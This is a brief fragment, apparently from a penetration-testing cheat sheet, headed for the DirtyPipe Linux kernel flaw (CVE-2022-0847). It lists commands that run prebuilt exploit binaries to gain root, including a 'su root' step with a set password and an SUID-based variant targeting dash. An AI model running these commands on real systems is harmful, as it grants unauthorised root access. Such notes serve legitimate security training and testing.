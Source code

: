 
##  DirtyPipe - CVE-2022-0847

```bash
./dpipe-root
su root ## Password is h4rithd

./dpipe-suid $(which dash)
```
